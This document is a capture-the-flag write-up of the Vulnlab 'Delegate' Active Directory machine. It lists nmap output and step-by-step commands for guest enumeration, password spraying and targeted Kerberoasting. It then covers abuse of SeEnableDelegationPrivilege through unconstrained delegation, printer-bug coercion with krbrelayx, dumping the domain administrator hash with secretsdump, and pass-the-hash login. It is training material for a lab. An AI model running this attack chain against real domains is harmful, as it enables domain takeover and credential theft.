


## Introduction
------------------------------------------------------------------------------------------
[delegate](https://www.vulnlab.com/machines) is a medium rated windows box from vulnlab. The foothold consite of abusing the guest account to enumerate users and access the SYSVOL share that contains a script leaking a password. Next we abuse GenericWrite right to perfom targeted kerberoating and get a user that is member of Remote Management Users group. The Privilege Escalation Path is straight forward and invole abusing SeEnableDelegationPrivilege privilege.

------------------------------------------------------------------------------------------

## Enumeration
We start by a full scan to discover all tcp opened ports...
### All Open Ports
```bash
rustscan -a 10.10.69.133
```
### Services Scanning
```bash
nmap -p... -sC -sV -v -oN delegate.full 10.10.69.133
```
```text
# Nmap 7.94SVN scan initiated Thu Nov 21 21:27:36 2024 as: nmap -p53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,47001,49664,49665,49666,49667,49669,49670,49672,49682,49686,49691,65415 -sC -sV -v -oN delegate.full 10.10.69.133
Nmap scan report for 10.10.69.133
Host is up (0.056s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-21 20:27:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-11-21T20:29:17+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DC1.delegate.vl
| Issuer: commonName=DC1.delegate.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-20T20:20:45
| Not valid after:  2025-05-22T20:20:45
| MD5:   9574:a383:8a2f:28ac:b87d:2074:0133:e185
|_SHA-1: 26be:188b:83fe:9406:9480:6d30:806e:cbb2:0858:c5a9
| rdp-ntlm-info: 
|   Target_Name: DELEGATE
|   NetBIOS_Domain_Name: DELEGATE
|   NetBIOS_Computer_Name: DC1
|   DNS_Domain_Name: delegate.vl
|   DNS_Computer_Name: DC1.delegate.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-11-21T20:28:37+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49672/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
65415/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-11-21T20:28:39
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 21 21:29:19 2024 -- 1 IP address (1 host up) scanned in 103.88 seconds
```
### Hostname
```bash
echo '10.10.69.133 delegate.vl DC1.delegate.vl' >> /etc/hosts
```

## Foothold
```bash
lookupsid.py guest@delegate.vl -no-pass
nxc smb delegate.vl -u guest -p '' --rid-brute 10000
```


```text
A.Briggs
b.Brown
R.Cooper
J.Roberts
N.Thompson
```
```bash
nxc smb delegate.vl -u guest -p '' --shares
```


```bash
nxc smb delegate.vl -u guest -p '' -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./output
```


```bash
nxc smb delegate.vl -u users.txt -p 'fakepassword' --continue-on-success
```


```bash
ldapdomaindump  'ldap://delegate.vl' -u 'delegate.vl\A.Briggs' -p 'fakepassword' -o lootme
```



```bash
nxc ldap delegate.vl -u A.Briggs -p 'fakepassword' -M daclread -o TARGET=N.Thompson ACTION=read PRINCIPAL=A.Briggs
```


```sh
dacledit.py -action 'read' -principal 'A.Briggs' -target 'N.Thompson' "delegate.vl"/"A.Briggs":"fakepassword"
```


```sh
targetedKerberoast.py -v -d delegate.vl -u A.Briggs -p 'fakepassword' --request-user N.Thompson
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt john.txt
```


```bash
nxc winrm delegate.vl -u N.Thompson -p 'fakepassword'
```

```bash
evil-winrm -i delegate.vl -u N.Thompson -p 'fakepassword'
```


## Privilege Escalation
Our current user N.Thompson has SeEnableDelegationPrivilege on the DC...
```powershell
whoami /priv
```


```bash
addcomputer.py 'delegate.vl/N.Thompson:fakepassword' -method SAMR -computer-name 'hackerpc' -computer-pass 'Password1@'
```


```bash
Set-ADComputer -Identity 'hackerpc' -TrustedForDelegation $true
Get-DomainComputer -Unconstrained

findDelegation.py "delegate.vl"/"N.Thompson":"fakepassword"
```


```bash
addspn.py -u 'delegate.vl\hackerpc$' -p 'Password1@' -s 'HOST/hacker.delegate.vl'  ldap://delegate.vl
```


```bash
dnstool.py -u 'delegate.vl\hackerpc$' -p 'Password1@' -r hacker.delegate.vl -a add -t A -d 10.8.4.67 10.10.69.133
```


```bash
krbrelayx.py --krbsalt 'DELEGATE.VLhosthackerpc.delegate.vl' --krbpass 'Password1@' -dc-ip 10.10.69.133
```


```bash
printerbug.py DELEGATE/'hackerpc$':'Password1@'@10.10.69.133 hacker.delegate.vl
```


```bash
mv DC1\$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache delegate.ccache

export KRB5CCNAME=/home/kali/vulnlab/delegate/delegate.ccache

secretsdump.py -no-pass -k DC1.delegate.vl -just-dc-user administrator -just-dc-ntlm
```


```bash
evil-winrm -i delegate.vl -u Administrator -H c32198ce***************
```


## Kill Chain Summary
1. Guest account to enumerate users and access the SYSVOL share.
2. GenericWrte Abuse to perform a targeted kerberoasting attack.
3. SeEnableDelegationPrivilege to perform unconstrained delegation.
  

## References
[targeted kerberoast](https://www.thehacker.recipes/ad/movement/dacl/targeted-kerberoasting)<br>
[nxc read acl](https://www.netexec.wiki/ldap-protocol/read-dacl-right)<br>
[SeEnableDelegationPrivilege](https://harmj4.rssing.com/chan-30881824/article60.html)<br>
[KUD](https://www.thehacker.recipes/ad/movement/kerberos/delegations/unconstrained)<br>
